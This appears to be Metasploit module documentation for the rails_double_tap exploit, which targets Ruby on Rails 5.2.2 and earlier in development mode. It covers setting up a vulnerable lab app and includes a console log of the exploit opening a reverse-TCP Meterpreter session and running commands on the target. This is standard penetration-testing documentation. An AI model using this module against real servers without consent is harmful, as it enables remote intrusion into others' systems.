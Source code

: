 ## Vulnerable Application

Ruby on Rails is a server-side web application framework written in Ruby. It is a model-view-controller (MVC) architecture, providing default structures for a database, a web service, and web pages. It is also a popular choice of framework among well known services and products such as Github, Bloomberg, Soundcloud, Groupon, Twitch.tv, and of course, Rapid7s Metasploit.

In development mode, Ruby on Rails versions including 5.2.2 and prior are vulnerable to a remote code execution vulnerability due to a predictable secret_key_base based on the name of the Rails application, and use it to create a signed serialized payload, and gain remote code execution.

## Vulnerable Setup

In order to set up a vulnerable box for testing, do this on a Linux machine (such as Ubuntu), and assuming you already have rvm installed:

```
$ rvm gemset create test
$ rvm gemset use test
$ gem install rails '5.2.1'
$ rails new demo
```

Next, `cd` to demo, and then modify the Gemfile like this:

```
$ echo "gem 'rails', '5.2.1'" >> Gemfile
$ echo "gem 'sqlite3', '~> 1.3.6', '< 1.4'" >> Gemfile
$ echo "source 'https://rubygems.org'" >> Gemfile
$ bundle
```

Next, add a new controller:

```
rails generate controller metasploit
```

And add the index method for that controller (under app/controllers/metasploit_controllers.rb):

```
class MetasploitController < ApplicationController
  def index
    render file: "#{Rails.root}/test.html"
  end
end
```

In the root directory, add a new test.html:

```
echo Hello World > test.html
```

Also, add that new route in config/routes.rb:

```
Rails.application.routes.draw do
  resources :metasploit
end
```

And finally, start the application (since no mode is specified, by default, it is development mode):

```
rails s -b 0.0.0.0
```

## Scenarios

### Server

```
$ rails server -b 0.0.0.0 
=> Booting Puma
=> Rails 5.2.1 application starting in development 
=> Run `rails server -h` for more startup options
Puma starting in single mode...
* Version 3.12.1 (ruby 2.6.0-p0), codename: Llamas in Pajamas
* Min threads: 5, max threads: 5
* Environment: development
* Listening on tcp://0.0.0.0:3000
Use Ctrl-C to stop
```

### Metasploit

```
msf5 exploit(multi/http/rails_double_tap) > check
[+] 172.16.249.141:3000 - The target is vulnerable.
msf5 exploit(multi/http/rails_double_tap) > exploit

[*] Started reverse TCP handler on 172.16.249.1:4444 
[*] Attempting to retrieve the application name...
[*] The application name is: Demo
[*] Stager ready: 433 bytes
[*] Sending serialized payload to target (1250 bytes)
[*] Sending stage (985320 bytes) to 172.16.249.141
[*] Meterpreter session 1 opened (172.16.249.1:4444 -> 172.16.249.141:62572) at 2019-04-25 16:29:43 -0500
[+] Deleted /tmp/LsvSGK.bin
[+] Deleted /tmp/tSJfp.bin

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > pwd
/home/sinn3r/demo
meterpreter >
```

